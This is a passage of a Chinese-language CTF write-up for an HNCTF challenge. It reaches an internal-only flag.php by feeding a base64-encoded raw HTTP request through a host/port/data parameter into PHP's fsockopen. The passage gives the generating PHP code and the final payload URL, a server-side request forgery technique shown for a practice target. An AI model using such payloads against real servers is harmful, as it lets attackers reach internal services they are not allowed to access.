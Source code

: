 要内网才能访问，很明显不是`X-Forwarded`伪造

可以写个http包

```php
<?php
$fp = fsockopen("www.example.com", 80, $errno, $errstr, 30);
if (!$fp) {
    echo "$errstr ($errno)<br />\n";
} else {
    $out = "GET / HTTP/1.1\r\n";
    $out .= "Host: www.example.com\r\n";
    $out .= "Connection: Close\r\n\r\n";
    fwrite($fp, $out);
    while (!feof($fp)) {
        echo fgets($fp, 128);
    }
    fclose($fp);
}
?> 
```

这是官方文档上的基本用法

很奇怪的一点就是`feof`打开的是一个文件指针，而本题里面是**data**字符串

![image-20221105215241169](HNCTF.assets/image-20221105215241169.png)

但是这样能打出来。。。。很怪，官方源码也确实是这个，太太太太怪了

```php
<?
$out = "GET /flag.php HTTP/1.1\r\n";
$out .= "Host: 127.0.0.1\r\n";
$out .= "Connection: Close\r\n\r\n";
echo base64_encode($out);
?>

生成payload，

http://ip:port/index.php?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=
```
